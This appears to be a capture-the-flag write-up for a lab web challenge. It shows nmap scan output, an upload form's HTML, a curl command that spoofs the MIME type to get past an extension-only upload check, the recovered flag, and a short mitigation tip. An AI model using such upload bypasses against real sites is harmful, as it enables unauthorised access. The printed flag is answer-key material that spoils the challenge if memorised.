 # <span style="text-decoration: underline"> File Upload </span>

- Tags : `file` , `image` , `upload`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>
___


## <span style="text-decoration: underline">problem</span>

During our `nmap` scans from other challenges we found out that there exists different pages

```bash
$ sudo nmap -q --script=http-csrf   192.168.1.23

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-25 21:17 CEST
Nmap scan report for 192.168.1.23
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.23
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.23:80/?page=signin
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=upload
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=member
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=searchimg
|     Form id: 
|_    Form action: #
4242/tcp open  vrml-multi-use
MAC Address: 08:00:27:CD:44:94 (Oracle VirtualBox virtual NIC)
```

> For this write we will be intereseted on `http://192.168.1.23:80/?page=upload`

i> We can also access this page using the `ADD IMAGE` button from the **home page**

When we visit the **upload** page (http://192.168.1.23:80/?page=upload) we see the following

![upload page](/.resources/images/upload_index.png)

We can see there is a `brows` button and there is a `UPLOAD` button. On top of all the button it says **Choose an image to upload**. From this we can guess that we have to upload an **image** file.

When we try to upload a `png` image file it shows the following message **`Your image was not uploaded.`**. It didn't work for us. When we change the extention from `png` to `jpeg` and try to upload again it shos the following message **`/tmp/img.jpeg succesfully uploaded.`**. It seems like the server do not verify the content of the file when we upload them but it verifies the extention. To prouve our theory we create an empty file and give it the name `any.jpeg` and try to upload it. It gives us the following message **`/tmp/any.jpeg succesfully uploaded.`**.

?> This is is typically the situation for website that shows the raw image that you upload them. In many occasion in the old days we could find website that let you upload images and you could see those images using the url of the image in `raw` format. By `raw` i mean it is not treated or modified nor it is shown using a program. it is shows directly from the uploaded directory. In this kind of situation hackers used to upload `php` scripts (because most of those sites ware made using `php` programs) and as the name of the file was not modified, to execute the uploaded `php` scripts only by eccessing the url.

!> In our case it seems like the extention of the file has to be `jpeg` or `jpg` to upload it through the means they have given us.

When we inspect the `form` for upload we find the following `html` code
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```
Where we see that the form uses the following fields do the `POST` request

|Key|Value|
|---|-----|
|MAX_FILE_SIZE|100000|
|uploaded| [Our "image" file that we want to upload]|
|Upload|Upload|

!> Sadly we can not modify the `input` type to `image` so that we can **try** to fool the server to think the uploaded element is an image

## <span style="text-decoration: underline">Solution</span>

Using curl we can easily upload a file with a the `type` name we want. Here is our command to do that

```bash
url -s -F "uploaded=@img.png;type=image/jpeg" -F Upload=Upload "http://192.168.1.23/?page=upload" | grep flag
```

|Option|Description|
|--|--|
|`-s` | Silent|
|`-F`|( — form) option, which will add `enctype=”multipart/form-data”` to the request.|

this gives us the following result

```bash
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/img.png succesfully uploaded.</pre>
```

?> We use the `;type=image/jpeg` to tell the server that this has a file type of an `image` 
?> After some playing arround we can see that the `MAX_FILE_SIZE` parameter is not needed.

# How to avoid the problem
This kind of problem could be evoided by not only checking the file `extention` but also by checking the type of file by looking inside the file's content.


# Flag

```text
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


# Resources
- [Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
- [File type using CURL](https://stackoverflow.com/a/4074949/4440716)
- [Send a file via POST with cURL and PHP](https://blog.derakkilgo.com/2009/06/07/send-a-file-via-post-with-curl-and-php/)